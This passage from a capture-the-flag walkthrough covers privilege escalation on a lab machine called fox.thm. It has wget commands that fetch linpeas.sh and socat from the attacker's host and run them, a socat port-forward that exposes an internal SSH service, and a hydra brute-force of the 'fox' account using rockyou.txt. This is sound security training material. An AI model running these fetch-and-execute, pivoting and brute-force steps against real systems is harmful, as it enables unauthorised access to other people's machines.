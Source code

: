 On target machine:

<pre>cd /tmp
wget http://10.9.6.63:8888/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh</pre>

Have a look at the results. Something should stick out. 

![linpeas](https://imgur.com/cN0VCJd.png)

It says port 22 is open. We didn't see that in our portscan earlier because it's only listening for internal connections.

<pre>127.0.0.1:22</pre>

Maybe we can try and open this up?

## User

Socat is a command-line based utility that establishes bi bidirectional byte streams and transfers data between them.

We can, therefore, use the socat binary to help us open up this port to allow us to connect from our local machine.

[Socat - Github](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

Download the binary and transfer it over using the Python HTTP server. 

<pre>python -m SimpleHTTPServer 8888</pre>

<pre>cd /tmp
wget http://10.9.6.63:8888/socat
chmod +x socat</pre>

Now execute the following to open up port 22 to port 8888. 

<pre>./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22</pre>

Let's see if this has worked. I performed a simple nmap scan:

<pre>nmap fox.thm</pre>

![nmap re scan](https://i.imgur.com/fZ8pCVI.png)

The top is the new scan and the bottom is the old scan. We can see that port 8888 is now open for ssh.

I tried the credentials we already have with rascal, but no luck.

Let's try and brute force this.

<pre>hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://fox.thm:8888</pre>

![hydra ssh](https://i.imgur.com/xS0pM0e.png)

We have a password for the user Fox. Let's connect via ssh with the credentials we just found.
